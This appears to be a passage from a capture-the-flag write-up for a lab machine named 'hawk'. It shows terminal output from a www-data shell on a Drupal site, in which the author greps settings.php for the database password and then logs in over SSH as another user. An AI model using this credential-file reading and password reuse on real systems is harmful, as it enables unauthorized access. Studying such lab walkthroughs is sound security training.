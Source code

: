 
www-data@hawk:/var/www/html/sites$ ls -lha  
ls -lha  
total 24K  
drwxr-x--- 4 www-data www-data 4.0K Jun 11 16:08 .  
drwxr-xr-x 9 root root 4.0K Jun 11 16:08 ..  
-rwxr-x--- 1 www-data www-data 904 Jun 11 16:08 README.txt  
drwxr-x--- 5 www-data www-data 4.0K Jun 11 16:08 all  
dr-xr-x--- 3 www-data www-data 4.0K Jun 11 16:08 default  
-rwxr-x--- 1 www-data www-data 2.4K Jun 11 16:08 example.sites.php  
www-data@hawk:/var/www/html/sites$ cd default  
cd default  
www-data@hawk:/var/www/html/sites/default$ ls -lha  
ls -lha  
total 68K  
dr-xr-x--- 3 www-data www-data 4.0K Jun 11 16:08 .  
drwxr-x--- 4 www-data www-data 4.0K Jun 11 16:08 ..  
-rwxr-x--- 1 www-data www-data 26K Jun 11 16:08 default.settings.php  
drwxrwxr-x 4 www-data www-data 4.0K Dec 4 11:16 files  
-r--r--r-- 1 www-data www-data 26K Jun 11 16:09 settings.php  
www-data@hawk:/var/www/html/sites/default$ cat settings.php | grep password  
cat settings.php | grep password  
* 'password' => 'password',  
* username, password, host, and database name.  
* 'password' => 'password',  
* 'password' => 'password',  
* 'password' => 'password',  
* 'password' => 'password',  
'password' => 'drupal4hawk',  
* by using the username and password variables. The proxy_user_agent variable  
# $conf['proxy_password'] = '';

root@kali:~# ssh daniel@10.10.10.102 [93/858]  
daniel@10.10.10.102's password:  
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-23-generic x86_64)

* Documentation: https://help.ubuntu.com  
* Management: https://landscape.canonical.com  
* Support: https://ubuntu.com/advantage

System information as of Tue Dec 4 12:39:54 UTC 2018

System load: 0.08 Processes: 122  
Usage of /: 54.1% of 9.78GB Users logged in: 1  
Memory usage: 54% IP address for ens33: 10.10.10.102  
Swap usage: 0%

* Meltdown, Spectre and Ubuntu: What are the attack vectors,  
how the fixes work, and everything else you need to know  
- https://ubu.one/u2Know

* Canonical Livepatch is available for installation.  
- Reduce system reboots and improve kernel security. Activate at:  
https://ubuntu.com/livepatch
